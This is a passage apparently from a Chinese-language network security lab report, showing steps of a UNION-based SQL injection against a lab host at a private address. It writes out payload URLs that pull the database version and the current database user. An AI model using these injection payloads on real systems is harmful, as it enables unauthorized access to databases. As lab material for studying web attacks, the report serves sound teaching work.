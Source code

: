        通过以上尝试获得回显位置，确定更改参数的位置（UNION SELECT 1,「2」,3,4）。

     - b. 获取数据库版本号,浏览器输地址栏入
        ```bash
        192.168.56.101/cat.php?id=0 UNION SELECT 1,@@version,3,4
        ```
        ![](/网络安全/chap0x07/images/2-7-C-B-1.png)
        
     - c. 获取系统当前用户名，浏览器地址栏输入
        ```bash
        192.168.56.101/cat.ph p?id=0 UNION SELECT 1,current_user(),3,4
        ```
       ![](/网络安全/chap0x07/images/2-7-C-C-1.png)
